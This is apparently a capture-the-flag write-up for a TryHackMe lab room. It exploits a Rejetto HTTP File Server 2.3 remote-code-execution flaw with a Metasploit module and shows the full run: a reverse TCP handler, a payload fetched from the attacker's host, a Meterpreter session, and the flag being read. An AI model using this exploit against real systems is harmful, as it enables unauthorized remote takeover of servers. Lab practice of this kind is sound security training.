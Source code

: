 Obviously there would be a website on another port! who didn't see it coming?
First the decoy website got us the first answer...

```html
<a href="index.html"><img src="/img/logo.png" style="width:500px;height:300px;"/></a>
<h3>Employee of the month</h3>
<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>
```

Lol how this guy got employee of the month?
Then the real stuff...

`rejetto http file server 2.3` looking so vulnerable right now...

Google for the CVE details. Big hint: It's an RCE!

(If you are playing on THM too be careful submitting the answer,
remove CVE and just submit the number)

Steel mountain looks more like rubble mountain now

## Exploitation

ok mostly two methods are available here. The `metasploit way` and the `I-download-scripts-manually way` but after doing both I think they are very similar so I won't separate and just go with metasploit (this is a guided room anyway)

setup options accordingly (Do not forget to change the remote TARGET PORT!)

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.8.4.19:4444
[*] Using URL: http://10.8.4.19:8080/jaISnbG8B
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /jaISnbG8B
[*] Sending stage (175686 bytes) to 10.10.165.223
[!] Tried to delete %TEMP%\WKZRtk.vbs, unknown result
[*] Meterpreter session 1 opened (10.8.4.19:4444 -> 10.10.165.223:49234) at 2023-05-07 20:58:51 +0100
[*] Server stopped.

...
meterpreter > dir
Listing: c:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 12:07:07 +0100  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 13:42:38 +0100  user.txt

meterpreter > cat user.txt
��t0t4lly-r34l-st33l-fl4g-n07-f4k3
```
If you see weird unicode characters in the flag do not worry and just submit it
